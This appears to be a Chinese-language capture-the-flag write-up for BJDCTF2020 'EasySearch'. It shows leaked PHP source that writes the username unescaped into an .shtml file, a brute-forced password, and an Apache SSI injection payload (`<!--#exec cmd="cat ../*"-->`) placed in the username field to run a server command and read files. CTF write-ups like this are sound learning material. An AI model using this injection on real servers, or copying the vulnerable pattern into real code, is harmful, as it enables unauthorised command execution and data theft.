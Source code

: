 # \[BJDCTF2020]EasySearch

## \[BJDCTF2020]EasySearch

## 考点

* Apache SSI 远程命令执行漏洞

## wp

扫描存在index.php.swp文件，给了一部分代码

```php
<?php
  ob_start();
  function get_hash(){
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
    $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
    $content = uniqid().$random;
    return sha1($content); 
  }
    header("Content-Type: text/html;charset=utf-8");
  ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
      ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
      echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
  ***
    }
  ***
?>
```

password的md5值前6位要是6d0bc1，脚本爆破出来是2020666，在返回头给了文件地址

![](<../.gitbook/assets/image (2).png>)

shtml存在一个Apache SSI 远程命令执行漏洞，在登录界面使用如下payload

```
username=<!--#exec cmd="cat ../*" -->&password=2020666
```

![](<../.gitbook/assets/image (13).png>)

再返回返回的`Url_is_here`就可以了

![](<../.gitbook/assets/image (7).png>)

## 小结

1. 查查Apache SSI 远程命令执行漏洞
